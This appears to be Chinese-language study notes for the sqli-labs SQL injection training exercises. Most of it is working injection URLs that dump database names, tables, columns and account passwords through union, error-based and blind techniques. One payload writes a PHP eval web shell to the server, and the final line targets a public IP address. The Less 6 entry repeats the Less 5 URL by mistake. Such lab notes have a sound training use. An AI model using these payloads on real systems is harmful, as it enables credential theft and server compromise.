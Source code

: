 
# sqli-labs学习笔记
## less 1   GET - Error based - Single quotes - String(基于错误的GET单引号字符型注入)

- 获取表中的字段数
> http://192.168.1.103/sqli/Less-1/index.php?id=1' order by 4 %23

- 获取到SQL的用户，数据库，版本
> http://192.168.1.103/sqli/Less-1/index.php?id=-1' union select 2,3,concat_ws(char(32,58,32),user(),database(),version()) %23

- 获取数据表
> http://192.168.1.103/sqli/Less-1/index.php?id=-1' union select 2,3,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1 %23

- 获取字段
> http://192.168.1.103/sqli/Less-1/index.php?id=-1' union select 2,3,column_name from information_schema.columns where  table_schema=0x7365637572697479 and table_name=0x7573657273 limit 0,1 %23

- 获取帐号密码
> http://192.168.1.103/sqli/Less-1/index.php?id=-1' union select 2,3,concat_ws(char(32,58,32),id,username,password) from users limit 0,1 %23

*获取到的数据库名和表名，都转成16进制的进行查询*

## less 2 GET - Error based - Intiger based (基于错误的GET整型注入)
**这里跟上面几乎一样，只是$id没用单引号引着，(因为sql语句对于数字型的数据可以不加单引号),不写单引号的注入就更简单了**

- 获取帐号密码
> http://192.168.1.103/sqli/Less-2/index.php?id=-1 union select 2,3,concat_ws(char(32,58,32),id,username,password) from users limit 0,1 %23

## less 3 GET - Error based - Single quotes with twist string (基于错误的GET单引号变形字符型注入)
**先闭单引号，在进行注入**

- 获取帐号密码
> http://192.168.1.103/sqli/Less-3/index.php?id=-1') union select 2,3,concat_ws(char(32,58,32),id,username,password) from users limit 0,1 %23

## less 4 GET - Error based - Double Quotes - String （基于错误的GET双引号字符型注入）
**先闭双引号，在进行注入**

- 获取帐号密码
> http://192.168.1.103/sqli/Less-4/index.php?id=-1") union select 2,3,concat_ws(char(32,58,32),id,username,password) from users limit 0,1 %23

## less 5 GET - Double Injection - Single Quotes - String (双注入GET单引号字符型注入)
**当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。因为是随机的，有时候得多试几次**

> http://192.168.1.103/sqli/Less-5/index.php?id=1' union select count(*),1,concat((select user()), floor(rand()*2)) as a from information_schema.tables  group by a %23  

- 获取数据表
> http://192.168.1.103/sqli/Less-5/index.php?id=1' union select count(*),1,concat((select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1), floor(rand()*2)) as a from information_schema.tables  group by a %23

- 获取字段
> http://192.168.1.103/sqli/Less-5/index.php?id=1' union select count(*),1,concat((select column_name from information_schema.columns where  table_schema=0x7365637572697479 and table_name=0x7573657273 limit 0,1), floor(rand()*2)) as a from information_schema.tables  group by a %23

- 获取帐号密码
> http://192.168.1.103/sqli/Less-5/index.php?id=1' union select count(*),1,concat((select concat_ws(char(32,58,32),id,username,password) from users limit 0,1), floor(rand()*2)) as a from information_schema.tables  group by a %23

## less 6 GET - Double Injection - Double Quotes - String (双注入GET双引号字符型注入)

- 获取帐号密码
> http://192.168.1.103/sqli/Less-5/index.php?id=1' union select count(*),1,concat((select concat_ws(char(32,58,32),id,username,password) from users limit 0,1), floor(rand()*2)) as a from information_schema.tables  group by a %23

## less 7 GET - Dump into outfile - String （导出文件GET字符型注入）
> http://192.168.1.103/sqli/Less-7/index.php?id=1')) union select 1,'2','<?php @eval($_POST["giantbranch"]);?>' into outfile 'D:\\PHPTutorial\\WWW\\muma.php' %23

## less 8 GET - Blind - Boolian Based - Single Quotes (布尔型单引号GET盲注)

- 一个一个的猜数据库字符,根据 ascii 码猜
```
> http://192.168.1.102/sqli/Less-8/index.php?id=1' and ascii(substr((select database()),6,1))=105 %23
或者
>http://192.168.1.102/sqli/Less-8/index.php?id=1'  and if(ascii(substr((select database()),1,1))>100, 1, 0) %23  
```

- 一个一个的猜数据表字符,根据 ascii 码猜
> http://192.168.1.102/sqli/Less-8/index.php?id=1'  and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),1,1))>50, 1, 0) %23  

- 一个一个的猜数据字段字符,根据 ascii 码猜
> http://192.168.1.102/sqli/Less-8/index.php?id=1'  and if(ascii(substr((select column_name from information_schema.columns where  table_schema=0x7365637572697479 and table_name=0x7573657273 limit 0,1),1,1))=106, 1, 0) %23  

- dump表中的数据
> http://192.168.1.102/sqli/Less-8/index.php?id=1'and if(ascii(substr((select username  from users limit 0,1),1,1))=68,1,0 ) %23 

## less 9 GET - Blind - Time based. -  Single Quotes  (基于时间的GET单引号盲注)

- 一个一个的猜数据库字符,根据 ascii 码猜
> http://192.168.1.102/sqli/Less-9/index.php?id=1' and sleep(if(ascii(substr((select database()),1,1))=115,0,5)) %23

- 一个一个的猜数据表字符,根据 ascii 码猜
> http://192.168.1.102/sqli/Less-9/index.php?id=1' and sleep(if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),1,1))=114,0,5)) %23

- 一个一个的猜数据字段字符,根据 ascii 码猜
> http://192.168.1.102/sqli/Less-9/index.php?id=1' and sleep(if(ascii(substr((select column_name from information_schema.columns where  table_schema=0x7365637572697479 and table_name=0x7573657273 limit 0,1),1,1))=105,0,5)) %23

- dump表中的数据
> http://192.168.1.102/sqli/Less-9/index.php?id=1' and sleep(if(ascii(substr((select username  from users limit 0,1),1,1))=68,0,5)) %23

## less 10 GET - Blind - Time based - double quotes (基于时间的双引号盲注)

- dump表中的数据
> http://192.168.1.102/sqli/Less-10/index.php?id=1" and sleep(if(ascii(substr((select username  from users limit 0,1),1,1))=68,0,5)) %23


## less11 POST - Error Based - Single quotes- String (基于错误的POST型单引号字符型注入)

- 获取数据集长度
http://120.203.13.111:6815/?id=1%20and%20length((select%20database()))=6%20#